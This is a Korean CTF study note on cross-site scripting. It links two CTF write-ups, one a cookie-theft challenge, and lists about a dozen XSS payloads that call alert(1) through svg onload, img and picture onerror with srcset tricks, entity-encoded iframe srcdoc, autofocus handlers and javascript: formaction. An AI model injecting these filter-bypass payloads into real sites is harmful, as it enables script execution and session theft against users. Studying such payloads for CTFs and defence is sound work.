 # 크로스 사이트 스크립팅

# 1. 설명
자주 나오는 유형이며, CSP(Contents Security Policy)와 섞여서 복잡하게 나오기도 합니다.

# 2. writeup
- [BYU CTF 2022 - Social Media](https://skyepodium.tistory.com/entry/BYU-CTF-2022-Social-Media-%ED%81%AC%EB%A1%9C%EC%8A%A4%EC%82%AC%EC%9D%B4%ED%8A%B8-%EC%8A%A4%ED%81%AC%EB%A6%BD%ED%8C%85?category=1028047)    
정석적인 쿠키 탈취 문제

- [[BSidesSF CTF] web-tutorial-1](https://skyepodium.tistory.com/entry/BSidesSF-CTF-web-tutorial-1?category=1028047)    
약간의 응용이 필요

# 3. 스크립트 목록

```js
// 1. 즉시 실행

`<svg/onload=alert(1)>`

`<video><source onerror="alert(1)">`

`<iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;" />`

`<picture><source srcset="x"><img onerror="alert(1)"></picture>`

`<picture><img srcset="x" onerror="alert(1)"></picture>`

`<img srcset=",,,,,x" onerror="alert(1)">`


// 2. 액션

`<form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>`

`<input onfocus=alert(1) autofocus>`

`<input onblur=alert(1) autofocus><input autofocus>`

`<form><button formaction="javascript:alert(1)">X</button>`

`<iframe srcdoc="<svg onload=alert(1)&nvgt;"></iframe>`

`<a href="javascript:&apos;<svg onload&equals;alert&lpar;1&rpar;&nvgt;&apos;">CLICK</a>`
```